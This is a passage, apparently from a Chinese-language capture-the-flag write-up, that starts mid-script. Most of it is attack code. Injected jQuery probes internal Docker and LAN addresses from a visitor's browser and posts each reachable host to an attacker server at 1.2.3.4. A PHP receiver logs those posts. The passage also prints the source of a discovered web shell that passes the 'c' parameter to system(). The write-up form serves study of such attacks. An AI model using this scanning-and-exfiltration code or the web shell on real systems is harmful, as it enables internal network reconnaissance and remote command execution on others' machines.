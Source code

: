 ```
});
jQuery.get( "http://192.168.1.4", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "192.168.1.4"} );
});
jQuery.get( "http://192.168.1.5", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "192.168.1.5"} );
});
jQuery.get( "http://172.17.0.1", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "172.17.0.1"} );
});
jQuery.get( "http://172.17.0.2", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "172.17.0.2"} );
});
jQuery.get( "http://172.17.0.3", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "172.17.0.3"} );
});
jQuery.get( "http://172.17.0.4", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "172.17.0.4"} );
});
jQuery.get( "http://172.17.0.5", function( data ) {
    jQuery.post( "http://1.2.3.4/app_dev.php", { x: "172.17.0.5"} );
});
```
在http://1.2.3.4/app_dev.php这样写
```
<?php

$file = fopen("file.txt", "a");
fwrite($file, "\n\n\n". $_POST['x']);
fclose($myfile);
```
测试发现172.17.0.2存在

那么先请求一下172.17.0.2试试看，发现返回
```
<html>
<body>
=.=
webdog
webshell
=.=
<!--
header("Access-Control-Allow-Origin: *");

$ztz= 'system';
ob_start($ztz);
echo $_GET[c];
ob_end_flush();

or

$ztz = new ReflectionFunction("system");
echo $ztz->invokeArgs(array("$_GET[c]"));
-->
</body>
</html>
```
发现存在一个php shell通过$_GET[c];
